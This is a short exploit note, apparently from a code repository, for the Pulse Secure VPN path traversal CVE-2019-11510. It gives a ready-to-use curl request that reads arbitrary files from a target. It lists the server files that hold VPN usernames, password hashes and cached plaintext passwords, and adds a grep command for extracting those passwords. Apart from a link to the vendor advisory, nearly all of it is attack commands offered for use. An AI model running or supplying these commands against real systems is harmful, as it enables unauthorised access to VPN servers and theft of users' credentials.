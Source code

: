 Pulse Secure (CVE-2019-11510)
=============================


## Description

There is a `Path Traversal` vulnerability on `Pulse Secure` VPN endpoint:

```bash
curl --path-as-is -k -D- 'https://<hostname>/dana-na/../dana/html5acc/guacamole/../../../../../../etc/hosts?/dana/html5acc/guacamole/#'
```

You can grab the following files:
```
/data/runtime/mtmp/system
/data/runtime/mtmp/lmdb/dataa/data.mdb
/data/runtime/mtmp/lmdb/dataa/lock.mdb
/data/runtime/mtmp/lmdb/randomVal/data.mdb
/data/runtime/mtmp/lmdb/randomVal/lock.mdb
```

The VPN user and hashed passwords are stored in the `mtmp/system` file, but when
users log into the application, it caches the plain-text password into `dataa/data.mdb`.

```bash
grep 'password@9' data.mdb -a
```

## Link
[https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44101](https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44101)

